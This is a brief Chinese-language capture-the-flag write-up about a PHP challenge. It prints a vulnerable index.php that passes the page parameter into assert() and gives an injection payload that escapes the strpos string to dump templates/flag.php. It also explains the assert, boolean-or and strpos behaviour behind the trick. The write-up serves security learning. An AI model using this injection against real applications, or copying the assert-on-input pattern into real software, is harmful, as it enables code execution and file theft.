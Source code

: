 感觉挺奇怪的题，先用githack找到源码（flag.php没有代码）哪有这么简单

然后看index.php 发现

```php
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>

```



然后可以构造？page=abc','..') or var_dump(file_get_contents("templates/flag.php"));//即可

奇怪的环境（也不想多待）

用)封闭strpos  ssert()函数，会将里面的字符串当作php代码执行，返回的结果是True或者False

Bool or Bool 语句，若前面为False，则执行后面的语句，为Ture则不执行后面的语句

strpos()函数，返回字符串在另一字符串中第一次出现的位置，如果没有找到字符串则返回 FALSE。